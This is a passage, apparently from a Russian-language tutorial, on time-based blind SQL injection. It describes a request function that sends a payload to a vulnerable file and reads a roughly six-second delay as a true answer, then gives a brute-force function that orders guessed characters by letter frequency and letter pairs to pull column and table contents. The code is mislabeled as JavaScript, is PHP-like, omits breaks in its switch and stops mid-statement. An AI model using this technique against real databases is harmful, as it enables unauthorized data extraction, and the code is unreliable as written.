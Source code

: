 ```javascript
} 
```

Рассмотрим кратко, что делает эта функция:
- Переменная `server` инициализируется URL адресов уязвимого файла.
- Переменная `headers` инициализируется данными описывающими заголовок для запроса.
- Создается http запрос методом GET, в котором содержится адрес до уязвимого файла и наша нагрузка.
- Далее добавляются http заголовки.
- После чего сохраняется время отправки запроса в переменную t.
- Далее пытаемся отправить запрос и получить ответ.
- После чего высчитываем разницу времени между датой отправки запроса и даты получения ответа.
- Если разница около 6, секунд возвращаем 1.
- Иначе возвращаем 0.

Возникает проблема отчета времени. Эту проблему можно решить следующим образом:
1. Строка символов для брута используется в алфавитном порядке, и каждый символ этой строки мы проверяем в том же порядке. Но в жизни в словах есть закономерности, при которых какая-то буква будет встречаться чаще, чем другая. Другими словами, можно использовать частотный анализ.
1. Можно усилить эффект от частотного анализа, если мы будем применять технологию цепочек букв. Другими словами, какие-то буквы чаще встречаются после определенных букв.

Первую часть можно реализовать, просто изменив строку для брута на `«tashwiobmcfdplnergyuvkjqzx_1234567890»`, а вот вторую часть рассмотрим в скрипте ниже:

```javascript
function brute($column,$table,$lim) 
{ 
  $ret_str = ""; 
  $b_str = "tashwiobmcfdplnergyuvkjqzx_1234567890"; 
  $b_arr = str_split($b_str); 
  for ($i=1;$i<100;$i++) 
  { 
    if($last_ltr){ 
      switch ($last_ltr){ 
        case "q": { $b_arr = 
str_split("uaqoisvretwybnhlxmfpzcdjgk_1234567890");} 
        case "w": { $b_arr = 
str_split("ahieonsrldwyfktubmpcgzvjqx_1234567890");} 
        case "e": { $b_arr = 
str_split("rndsaletcmvyipfxwgoubqhkzj_1234567890");} 
        case "r": { $b_arr = 
str_split("eoiastydnmrugkclvpfbhwqzjx_1234567890");} 
        case "t": { $b_arr = 
str_split("hoeiartsuylwmcnfpzbgdjkxvq_1234567890");} 
        case "y": { $b_arr = 
str_split("oesitamrlnpbwdchfgukzvxjyq_1234567890");} 
        case "u": { $b_arr = 
str_split("trsnlgpceimadbfoxkvyzwhjuq_1234567890");} 
        case "i": { $b_arr = 
str_split("ntscolmedrgvfabpkzxuijqhwy_1234567890");} 
        case "o": { $b_arr = 
str_split("nurfmtwolspvdkcibaeygjhxzq_1234567890");} 
        case "p": { $b_arr = 
str_split("eroaliputhsygmwbfdknczjvqx_1234567890");} 
        case "l": { $b_arr = 
str_split("eliayodusftkvmpwrcbgnhzqxj_1234567890");} 
        case "k": { $b_arr = 
str_split("einslayowfumrhtkbgdcvpjzqx_1234567890");} 
        case "j": { $b_arr = 
str_split("euoainkdlfsvztgprhycmjxwbq_1234567890");} 
        case "h": { $b_arr = 
str_split("eaioturysnmlbfwdchkvqpgzjx_1234567890");} 
        case "g": { $b_arr = 
str_split("ehroaiulsngtymdwbfpzkxcvjq_1234567890");} 
        case "f": { $b_arr = 
```